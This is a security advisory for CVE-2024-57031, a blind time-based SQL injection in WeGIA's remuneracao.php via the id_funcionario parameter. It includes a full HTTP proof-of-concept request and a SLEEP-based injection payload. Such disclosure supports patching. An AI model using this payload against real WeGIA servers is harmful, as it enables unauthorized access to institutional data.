


## CVE-2024-57031: SQL Injection (Blind Time-Based) in remuneracao.php parameter id_funcionario

> *CVE Publication: https://www.cve.org/CVERecord?id=CVE-2024-57031*

## Vendor

<p style="text-align: justify;"> WeGIA (Web Gerenciador Institucional) is an integrated management system licensed under the GNU GPL v3.0, designed to enhance administration, control, and transparency for institutions. </p>

[https://www.wegia.org](https://www.wegia.org/)

[https://sol.sbc.org.br/index.php/latinoware/article/view/31544](https://sol.sbc.org.br/index.php/latinoware/article/view/31544)

## Affected Product Code Base

WeGIA < v3.2.0

## Vulnerability Description

<p style="text-align: justify;">A SQL Injection vulnerability was identified in the endpoint /WeGIA/html/funcionario/remuneracao.php, in the id_funcionario parameter. This vulnerability allows the execution of arbitrary SQL commands, which can compromise the confidentiality, integrity, and availability of stored data.</p>

## POC

### Request:

`````html
POST /WeGIA/html/funcionario/remuneracao.php HTTP/1.1
Host: comfirewall.wegia.org:8000
Cookie: _ga_F8DXBXLV8J=GS1.1.1733313703.4.1.1733316730.35.0.0; _ga=GA1.1.552051356.1730893405; PHPSESSID=702lhluk293h4ap0mv5l51u1g4
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 30
Origin: https://comfirewall.wegia.org:8000
Referer: https://comfirewall.wegia.org:8000/WeGIA/html/funcionario/profile_funcionario.php?id_funcionario=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: keep-alive

action=listar&id_funcionario=1
`````

Payload:

`````sql
AND (SELECT 7525 FROM (SELECT(SLEEP(20)))PXhT)`
`````

### Normal Request:



### SQL Injection Request:



## References

[https://github.com/nilsonLazarin/WeGIA/issues/822](https://github.com/LabRedesCefetRJ/WeGIA/issues/822)

[https://www.wegia.org](https://www.wegia.org/)

[https://github.com/nilsonmori/WeGIA](https://github.com/nilsonmori/WeGIA)

## Discoverer

[](https://www.linkedin.com/in/nmmorette) [Natan Maia Morette](https://www.linkedin.com/in/nmmorette) 

> *By: [CVE Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)*